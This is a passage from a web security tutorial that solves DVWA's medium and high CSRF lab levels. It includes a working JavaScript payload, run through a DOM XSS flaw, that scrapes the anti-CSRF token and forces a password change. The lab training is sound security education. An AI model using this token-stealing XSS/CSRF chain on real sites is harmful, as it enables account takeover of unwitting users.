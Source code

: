 Make sure you changed the YOUR\_IP to the IP yours DVWA installation is accessible by. If you have it locally, **localhost** would work.

![Medium Severity DVWA CSRF - Chaining With XSS](https://bughacking.com/wp-content/uploads/2021/03/medium-2-1.png)

As a result, request will be executed and password will change.

**High**

With the High level, there is an anti-CSRF token added. This means that somewhere on the page there is an HTML element, likely an invisible input field, that consists of the randomly generated token. As the token is long enough, it would take years of brute forcing to get it by force. In our case, we have to provide a CSRF token with every password changing request. Let's say we changed the password, intercepted the request, and wanted to repeat the process. If we've tried sending the same request it would fail as the token changed.

![High Level DVWA CSRF Vulnerability](https://bughacking.com/wp-content/uploads/2021/03/high-1-1.png)

If the request was legit, we would get 200 status code from the server.

On the internet, you might find different solutions for this vulnerability. However, most of them are not valid. The most popular "incorrect" way to exploit this vulnerability, is to create an HTML page, copy the form with a CSRF token, that is used for password changing, After that it should mystically reach the victim. Probably not the best way to exploit DVWA high CSRF vulnerability.

We have to chain vulnerabilities in order to change the password on a high level. The first step would be to get the CSRF token from the page. And for this purpose, we will use a simple script that will be executed by exploiting XSS (DOM) vulnerability. But of course, there are other ways to achieve the same goal, so feel free to experiment.

Code snippet below will be effective in our case. What it does is can be broke down into two parts:

*   First of all, it gets the CSRF token from the page.
*   After that it constructs a GET request to the CSRF vulnerability page (URL is defined in lines 1 and 2) with our new password (defined in line 3) and it adds the CSRF token (line 19) to the final request (line 20).

    var hostname = 'http://10.0.1.42:8081';
    var the_url = hostname + '/vulnerabilities/csrf';
    var pass = 'newpasswd123';
    var regex = /user_token\' value\=\'(.*?)\' \/\>/;
    
    if (window.XMLHttpRequest){
        xmlhttp=new XMLHttpRequest();
    }else{
        xmlhttp=new ActiveXObject("Microsoft.XMLHTTP");
    }
    
    xmlhttp.withCredentials = true;
    var activated = false;
    xmlhttp.onreadystatechange=function(){
        if (xmlhttp.readyState == 4 && xmlhttp.status == 200)
        {
            var text = xmlhttp.responseText;
            var match = text.match(regex);
            var token = match[1];
            var new_url = the_url + '/?user_token=' + token + '&password_new=' + pass + '&password_conf=' + pass + '&Change=Change'
            if(!activated){
                alert('Token that was received: ' + match[1]);
    	    activated = true;
                xmlhttp.open("GET", new_url, false );
                xmlhttp.send();
            }
        }
    };
    xmlhttp.open("GET", the_url, false );
    xmlhttp.send(); 
